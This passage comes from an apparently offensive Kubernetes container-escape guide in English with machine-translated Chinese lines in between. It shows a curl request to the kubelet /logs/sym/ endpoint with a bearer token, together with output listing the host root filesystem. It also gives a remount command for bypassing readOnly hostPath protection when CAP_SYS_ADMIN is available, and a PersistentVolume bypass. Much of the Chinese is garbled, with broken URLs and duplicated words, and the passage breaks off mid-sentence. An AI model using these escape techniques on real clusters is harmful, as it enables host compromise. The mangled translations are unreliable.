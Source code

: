 *如果攻击者控制任何委托人都具有读取`nodes/log` **的权限 **访问`https：// <Gateway>：10250/logs/sym/`他将列出主机root ** filesystem（更改SYMLINK可以提供对文件的访问）。

```bash
curl -k -H 'Authorization: Bearer eyJhbGciOiJSUzI1NiIsImtpZCI6Im[...]' 'https://172.17.0.1:10250/logs/sym/'
<a href="bin">bin</a>
<a href="data/">data/</a>
<a href="dev/">dev/</a>
<a href="etc/">etc/</a>
<a href="home/">home/</a>
<a href="init">init</a>
<a href="lib">lib</a>
[...]
```

**A laboratory and automated exploit can be found in** [**https://blog.aquasec.com/kubernetes-security-pod-escape-log-mounts**](https://blog.aquasec.com/kubernetes-security-pod-escape-log-mounts)

**可以在** [** https：//blog.aquasec.com/kubernetes-security-pod-escape-escape-log-mountsxphy]中找到实验室和自动化的利用。 /kubernetes-security-pod-escape-log-mounts）

#### Bypassing readOnly protection <a href="#bypassing-hostpath-readonly-protection" id="bypassing-hostpath-readonly-protection"></a>

####绕过ReadOnly Protection <a href="#bypassing-hostpath-path-readonly-protection" id="bypassing-hostpath-hostpath-readonly-protection"> </a>

If you are lucky enough and the highly privileged capability capability `CAP_SYS_ADMIN` is available, you can just remount the folder as rw:

如果您足够幸运，并且具有高度特权的功能“ CAP_SYS_ADMIN”，则可以将文件夹重新安装为RW：

```bash
mount -o rw,remount /hostlogs/
```

#### Bypassing hostPath readOnly protection <a href="#bypassing-hostpath-readonly-protection" id="bypassing-hostpath-readonly-protection"></a>

####绕过主持人readonly保护<a href="#bypassing-hostpath-readonly-protection" id="bypassing-hostpath-hostpath-readonly-protection"> </a>

As stated in [**this research**](https://jackleadford.github.io/containers/2020/03/06/pvpost.html) it’s possible to bypass the protection:

如[** [**]（https://jackleadford.github.io/containers/2020/03/06/pvpost.html）所述，可以绕过保护：

```yaml
allowedHostPaths:
    - pathPrefix: "/foo"
       readOnly: true
```

Which was meant to prevent escapes like the previous ones by, instead of using a a hostPath mount, use a PersistentVolume and a PersistentVolumeClaim to mount a hosts folder in the container with writable access:
